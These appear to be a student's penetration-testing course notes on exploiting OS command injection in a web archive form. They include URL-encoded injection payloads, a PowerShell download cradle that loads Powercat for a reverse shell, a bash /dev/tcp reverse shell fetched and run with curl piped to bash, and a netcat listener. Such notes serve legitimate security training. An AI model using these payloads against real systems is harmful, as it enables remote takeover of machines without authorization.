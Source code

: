 when command injection is found try running a simple command, like ifconfig or ipconfig.

If you notice that it is filtered or sanatized then try to be creative by for example, try to combine the **git** and **ipconfig** commands with a URL-encoded semicolon represented as "%3B". Semicolons can be used in a majority of command lines, such as PowerShell or Bash as a delimiter for multiple commands.Alternatively, we can use two ampersands, "&&", to specify two consecutive commands. For the Windows command line _(CMD)_,[4](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/command-injection-44693/os-command-injection-44652#fn-local_id_47-4) we can also use one ampersand"&".
for example:
```
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.50.189:8000/archive
```

handy command to check if windows machine is running powershell or cmd:
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
URL Encoded:
curl -X POST --data '(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive
```

use _Powercat_[6](https://portal.offsec.com/courses/pen-200-44065/learning/common-web-application-attacks-44643/command-injection-44693/os-command-injection-44652#fn-local_id_47-6) to create a reverse shell. Powercat is a PowerShell implementation of Netcat included in Kali
 copy Powercat to the home directory for the _kali_ user, and start a Python3 web server in the same directory
 ```
kali@kali:~$ cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

kali@kali:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
read the script, will send a reverse shell to port 4444 and we must set the correct ip address(our kali machine) in the script before we serve the file.

we then now use injected curl command to get the windows machine to curl our http server hosting the powercat file:

```
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell 
```
 first part uses a PowerShell download cradle to load the Powercat function contained in the **powercat.ps1** script from our web server. The second command uses the _powercat_ function to create the reverse shell with the following parameters: **-c** to specify where to connect, **-p** for the port, and **-e** for executing a program
make sure to have netcat on kali listening on port 4444 as well.

```
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.119.3%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.119.3%20-p%204444%20-e%20powershell' http://192.168.50.189:8000/archive
```

send the url encoded curl command and we should receive reverse shell!

Now on linux:

first i will create quick bash file like so:
```
echo 'bash -i >& /dev/tcp/192.168.45.230/4444 0>&1' > simple_linux_rev_shell.sh
```
 Make sure to host the python server in same dir as the rev_shell
```
sudo python3 -m http.server 80
```
 
then we will send the curl command for the target to curl our kali machine and then execute:
```
curl -s http://192.168.45.230/shell.sh | bash
URL encoded:
curl%20-s%20http%3A%2F%2F192.168.45.230%2Fsimple_linux_rev_shell.sh%20%7C%20bash
```
start nc listener on same port as the rev shell script:
```
nc -lvnp 4444
```
we are in!
run :
```
sudo su
```
see if you can elevate access